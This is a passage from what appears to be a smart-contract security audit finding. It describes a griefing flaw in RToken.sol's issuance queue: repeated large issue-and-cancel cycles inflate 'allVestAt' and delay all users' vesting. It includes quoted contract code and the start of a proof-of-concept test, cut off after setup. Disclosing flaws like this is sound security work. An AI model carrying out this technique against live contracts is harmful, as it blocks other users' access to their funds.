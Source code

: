 Then in `vestUpTo` it is checked that this is vested at a later block:

```javascript
File: RToken.sol

746:        IssueItem storage rightItem = queue.items[endId - 1];
747:        require(rightItem.when <= FIX_ONE_256 * block.number, "issuance not ready");
```

If a user decides that they do not want to do this vesting they can cancel pending items using `cancel`, which will return the deposited tokens to them.

However this cancel does not reduce the `allVestAt` state so later issuances will still be compared to this state.

Hence a malicious user can issue a lot of RTokens (possibly using a flash loan) to increase `allVestAt` and then cancel their queued issuance. Since this only costs gas this can be repeated to push `allVestAt` to a very large number effectively delaying all vesting for a very long time.

### Impact

A malicious user can delay issuances a very long time costing only gas.

### Proof of Concept

PoC test in `RToken.test.ts`:

```javascript
    // based on 'Should allow the recipient to rollback minting'
    it('large issuance and cancel griefs later issuances', async function () {
      const issueAmount: BigNumber = bn('5000000e18') // flashloan or rich

      // Provide approvals
      const [, depositTokenAmounts] = await facade.callStatic.issue(rToken.address, issueAmount)
      await Promise.all(
        tokens.map((t, i) => t.connect(addr1).approve(rToken.address, depositTokenAmounts[i]))
      )

      await Promise.all(
        tokens.map((t, i) => t.connect(addr2).approve(rToken.address, ethers.constants.MaxInt256))
      )
      
      // Get initial balances
      const initialRecipientBals = await Promise.all(tokens.map((t) => t.balanceOf(addr2.address)))

      // Issue a lot of rTokens
